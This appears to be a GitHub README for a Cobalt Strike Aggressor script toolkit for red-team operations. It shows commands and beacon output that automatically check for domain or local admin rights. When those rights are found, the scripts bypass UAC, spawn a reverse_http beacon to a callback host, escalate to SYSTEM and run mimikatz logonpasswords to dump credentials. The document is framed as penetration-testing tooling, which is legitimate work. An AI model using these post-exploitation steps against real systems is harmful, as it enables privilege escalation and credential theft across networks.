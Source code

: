 # CobaltStrike-ToolKit
I’m sure there are better ways of doing all of this but as of right now there hasn’t been much put out so this will do :)

## Work Conducted by:
- Alexander Rymdeko-Harvey [Twitter] @Killswitch-GUI -- [Web] CyberSydicates.com
- Brian R [Twitter] @brian_psu

## CheckDA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent user name.
While using .NET 3.5 to perform Domain Group enumeration (PowerShell 2+ safe). This allows for alerting on Pen-Test of a DA level beacons. 
### Usage
Load up the Script:
```
aggressor> load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
[+] Load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
```
When a initial beacon comes in you receive a pop up box and will see:
```
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck -Initial True
[+] host called home, sent: 2527 bytes
[+] received output:
Found-DA-User: admin
```
### Independent Command:
```
beacon> checkda
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck
[+] host called home, sent: 2519 bytes
[+] received output:
[!] Currently DA Context
```
## CheckLA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent context.
While using .NET 3.5 to perform Local Group enumeration and Token Context (PowerShell 2+ safe). This has the following context:
1. Checks for Initial Beacons Context (Elevated or Local Admin)
2. If the beacon is elevated it will Auto Getsystem, and run LogonPasswords
3. If the beacon in Local Admin but not in a high integrity process it will run Bypass UAC on that beacon
4. This will than launch a beacon in a high integrity beacon causing the first event to fire running LogonPasswords

### Usage 
Run this with all the other scripts
```
aggressor> load Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
when a Initial Beacon comes in:
```
aggressor> reload Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
If it returns as a Local Admin it will perform Bypass UAC:
```
[*] Tasked beacon to spawn windows/beacon_http/reverse_http (192.168.1.198:80) in a high integrity process
[+] host called home, sent: 76304 bytes
```
The new beacon will run logonPassword as desired :)
```
[*] Tasked beacon to get SYSTEM
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 444597 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
```
### Independent Command 
```
beacon> checkla
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/CheckLAdminContext.ps1
[*] Tasked beacon to run: Invoke-LocalAdminCheck
[+] host called home, sent: 2622 bytes
[+] received output:
[!] Currently-in-LocalAdmin-Context
```
## DA-Watch - Set of Commands

Developed by @britz to perform the same DA monitoring but using all Aggressor script to perform DA Group checks (OPSEC). This has a few commands and requires you to update the list of DA members. this can be done with a few commands and is very effective way of checking for DA without loading PowerShell. On Pen-test's its not a big problem but on a red team OP this may be a No-Go.

### Usage
 load up the script
```
aggressor> load DA-Watch.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/DA-Watch.cna
```
Run this command and it will populate the known DA list
```
shell net group /domain "Domain Admins"
```
### uaddDA - Command
Adds a user to the DA list
### uremDA - Command
Removes a user from the DA list
### ulistDA - Command
Prints a list of the current DA's to the Console
### uhookOn
Sets the hook to follow beacon output to "On". This will watch all output for Shell net group...
### uhookOff
Turns off the watch hook and set the follow beacon output to off.

### Credential Checks
Every time a Cred is added to the Cred data model a credential is checked against the known list of creds. If it matches it posts to the event log! 




